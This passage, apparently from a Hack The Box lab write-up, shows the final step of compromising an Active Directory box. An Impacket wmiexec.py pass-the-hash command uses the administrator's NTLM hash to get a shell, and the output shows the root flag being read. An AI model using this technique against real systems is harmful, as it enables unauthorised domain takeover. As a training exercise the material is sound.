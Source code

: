 ### Getting a shell

The administrator's hash can be used to conduct a <mark>pass-the-hash (PtH)</mark> attack. This time, I will use <mark>wmiexec.py</mark> for a change, but you can stick with <mark>Evil-WinRM</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 wmiexec.py htb.local/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

C:\Users>type C:\Users\Administrator\Desktop\root.txt
4e6923**************************
{% endhighlight %}

We finish the box by grabbing the root flag and completely <mark>compromising</mark> the entire AD domain. 